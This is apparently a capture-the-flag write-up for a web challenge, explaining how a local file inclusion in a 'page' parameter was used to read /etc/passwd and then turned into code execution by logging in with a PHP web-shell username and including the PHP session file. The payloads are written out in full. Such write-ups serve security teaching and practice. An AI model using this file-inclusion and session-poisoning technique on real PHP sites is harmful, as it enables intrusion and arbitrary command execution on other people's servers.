




# web01 (Point: 210)



## TL;DR

**LFI to RCE via session file**

## Vulnerability

### LFI

* http://15.165.80.50/?page=register was the register page
* http://15.165.80.50/?page=/./etc/passwd split the passwd file, thus LFI confirmed



Now we just need a file with our controlled content and include it to execute php.

Usually username identity is sessions. Server uses session to identify the user and this session is maintained by server in a session file which is located at /var/lib/php/sessions/sess_PHPSESSID

So when we log in with the following username, our username will be stored in `/var/lib/php/sessions/sess_PHPSESSID` and thus we can include it to execute arbritrary php
```
username = <?php system($_GET[EXP]); ?>
```


### EXPLOIT

* Login into web app to make server write your username in session file and note the PHPSESSID Cookie (in my case PHPSESSID:9evgl9q9m3c9ct6hl3599js7j4)
* include the file http://15.165.80.50/?page=/./var/lib/php/sessions/sess_9evgl9q9m3c9ct6hl3599js7j4 and we have shell.

### FLag



* WhiteHat{Local_File_Inclusion_bad_enough_??} 


